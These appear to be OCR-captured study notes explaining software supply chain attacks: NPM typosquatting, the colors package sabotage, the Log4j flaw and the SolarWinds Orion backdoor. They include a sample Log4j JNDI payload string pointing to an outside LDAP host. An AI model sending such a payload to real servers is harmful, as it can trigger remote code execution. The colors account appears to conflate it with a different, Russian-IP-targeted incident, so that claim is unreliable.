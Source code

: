 - **How Attackers Exploit NPM:**  
    Attackers create packages with names that are typos or slight variations of widely-used libraries, hoping that developers will accidentally install them due to a simple error.
    
- **Example of an Attack:**  
    A popular library called **NPM Colors** was altered by its developer in a way that, when downloaded from a Russian IP address, would print "Liberty" along with gibberish, effectively bricking any applications relying on it. This illustrates how a developer can execute a supply chain attack against their own package.
    

### Code Review Importance

_Explanation:_ Always conduct a source code review before updating packages to mitigate risks from potentially malicious changes.

## Log4j Oversight

- **What is Log4j?**  
    Log4j is an open-source logging framework widely used in Java applications to log messages.
    
- **Vulnerability Discovery:**  
    A critical bug was found that allowed attackers to make requests to a malicious LDAP server by exploiting the way Log4j handled log messages. By sending a specially crafted log message, an attacker could trigger the application to execute arbitrary code via an LDAP request.
    
- **Example Attack Vector:**  
    The exploit might look like this:
    
    arduino
    
    Copy code
    
    `jndi:ldap://xxx.dnslog.cn/a`
    
    Here, a malicious payload is executed on the victim's server, demonstrating the serious risks of insecure libraries.
    

## SolarWinds Attack

- **About SolarWinds:**  
    SolarWinds is a SaaS company specializing in IT management and administration. The attack focused on their **Orion** software, a performance monitoring solution.
    
- **The Attack:**  
    Attackers inserted malicious code into a DLL file used by Orion, which was digitally signed by SolarWinds, thus appearing legitimate. This backdoor enabled the attackers to compromise any organization using the software.
    
- **How the Backdoor Operated:**  
    The malicious code evaded antivirus detection by compiling commands in memory rather than writing them to disk. It was designed to reactivate itself if detected. This multi-stage approach helped it avoid traditional security measures, as many antivirus solutions could not sandbox the dynamically compiled C# code effectively.
    